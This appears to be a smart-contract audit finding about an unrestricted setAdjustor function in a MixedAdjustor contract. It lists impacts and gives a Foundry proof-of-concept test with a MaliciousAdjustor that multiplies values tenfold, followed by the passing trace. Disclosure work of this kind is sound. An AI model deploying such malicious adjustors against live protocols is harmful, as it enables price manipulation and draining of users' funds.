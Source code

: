 1. **Token Value Corruption**: Attacker inflates `adjusted values,` leading to incorrect token pricing across the system.
2. **Liquidity Pool Distortion**: AMMs relying on manipulated `adjustors` miscalculate `ratios`, causing pool imbalance and potential arbitrage drain.
3. **Governance Manipulation**: Inflated token values grant attackers disproportionate `voting power`, undermining fair protocol decisions.
4. **Accounting Inaccuracy**: Internal balances and financial metrics become unreliable, affecting protocol integrity and external integrations.
5.**Cross-Contract Risk Propagation**: Any contract importing `MixedAdjustor` inherits this vulnerability, widening the attack surface.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import{Test, console2} from "forge-std/Test.sol";
import{MixedAdjustor} from "../src/integrations/adjustor/MixedAdjustor.sol"; 

interface IAdjustor {
    function adjust(uint256 amount) external returns (uint256);
}

// Exploit Contract
contract MaliciousAdjustor is IAdjustor {
    function adjust(uint256 amount) external pure returns (uint256) {
        return amount * 10; // Manipulates values
    }
}

// Foundry Test Contract
contract AdjustorExploitTest is Test {
    MixedAdjustor manager;
    MaliciousAdjustor malicious;

    function setUp() public {
        manager = new MixedAdjustor();
        malicious = new MaliciousAdjustor();
    }

    function test_ExploitAdjustor() public {
        address targetToken = address(0x123);
        manager.setAdjustor(targetToken, address(malicious));

        uint256 initialValue = 100;
        uint256 manipulatedValue = IAdjustor(manager.adjAddr(targetToken)).adjust(initialValue);

        assertEq(manipulatedValue, 1000, "Exploit successful: Value manipulated");
    }
}
```
```solidity
Ran 1 test for test/AuditPoc.t.sol:AdjustorExploitTest
[PASS] test_ExploitAdjustor() (gas: 39615)
Traces:
  [39615] AdjustorExploitTest::test_ExploitAdjustor()
    ├─ [24772] MixedAdjustor::setAdjustor(0x0000000000000000000000000000000000000123, MaliciousAdjustor: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   └─ ← [Stop] 
    ├─ [461] MixedAdjustor::adjAddr(0x0000000000000000000000000000000000000123) [staticcall]
    │   └─ ← [Return] MaliciousAdjustor: [0x2e234DAe75C793f67A35089C9d99245E1C58470b]
    ├─ [205] MaliciousAdjustor::adjust(100)
    │   └─ ← [Return] 1000
```